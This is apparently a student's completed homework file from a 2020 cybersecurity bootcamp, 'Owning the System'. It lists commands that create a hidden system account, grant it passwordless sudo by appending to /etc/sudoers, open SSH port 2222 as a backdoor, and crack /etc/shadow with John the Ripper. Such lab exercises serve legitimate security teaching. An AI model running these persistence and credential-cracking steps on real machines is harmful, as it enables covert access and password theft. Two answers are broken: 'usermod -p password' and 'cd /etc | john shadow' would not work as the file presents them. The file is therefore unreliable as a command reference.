 ## Week 6 Homework Submission File: Advanced Bash - Owning the System

Please edit this file by adding the solution commands on the line below the prompt. 

Save and submit the completed file for your homework submission.

**Step 1: Shadow People** 

1. Create a secret user named `sysd`. Make sure this user doesn't have a home folder created:
    - useradd --no-create-home sysd

2. Give your secret user a password: 
    - usermod -p password sysd

3. Give your secret user a system UID < 1000:
    - usermod -u 115 sysd

4. Give your secret user the same GID:
   - groupmod -g 115 sysd

5. Give your secret user full `sudo` access without the need for a password:
   -  echo 'sysd ALL=(ALL) NOPASSWD:ALL' >> /etc/sudoers

6. Test that `sudo` access works without your password:

    ```
    $ whoami
    sysd
    $ sudo -l
    Matching Defaults entries for sysd on scavenger-hunt:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

    User sysd may run the following commands on scavenger-hunt:
    (ALL) NOPASSWD: ALL
    ```

**Step 2: Smooth Sailing**

1. Edit the `sshd_config` file:

    ```bash
Port 22
Port 2222
#AddressFamily any
#ListenAddress 0.0.0.0
#ListenAddress ::

    ```

**Step 3: Testing Your Configuration Update**
1. Restart the SSH service:
    - systemctl restart ssh.service

2. Exit the `root` account:
    - exit

3. SSH to the target machine using your `sysd` account and port `2222`:
    - ssh sysd@192.168.6.105 -p 2222

4. Use `sudo` to switch to the root user:
    - sudo su

**Step 4: Crack All the Passwords**

1. SSH back to the system using your `sysd` account and port `2222`:

    - ssh sysd@192.168.6.105 -p 2222

2. Escalate your privileges to the `root` user. Use John to crack the entire `/etc/shadow` file:

    - cd /etc | john shadow

---

© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.

